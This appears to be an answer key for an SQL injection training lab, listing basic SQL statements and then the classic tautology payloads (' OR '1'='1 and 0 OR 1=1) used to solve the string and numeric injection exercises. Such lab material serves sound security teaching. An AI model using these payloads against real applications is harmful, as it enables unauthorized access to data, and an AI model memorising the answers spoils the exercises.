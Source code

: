 # (A1) Injection
<a name="Injection"></a>

## SQL Injection (intro)

### 2. What is SQL?

```sql
SELECT department FROM employees WHERE first_name='Bob'
```

### 3. Data Manipulation Language (DML)

```sql
UPDATE employees SET department='Sales' WHERE first_name='Tobi'
```

### 4. Data Definition Language (DDL)

```sql
ALTER TABLE employees ADD phone varchar(20)
```

### 5. Data Control Language (DCL)

```sql
GRANT ALL ON grant_rights TO unauthorized_user
```

### 9. Try It! String SQL injection

```sql
'
OR
'1'='1
```

### 10. Try It! Numeric SQL injection

Login_Count: 

```
0
```  

User_Id: 

```sql
0 OR 1=1
```

### 11. Compromising confidentiality with String SQL injection
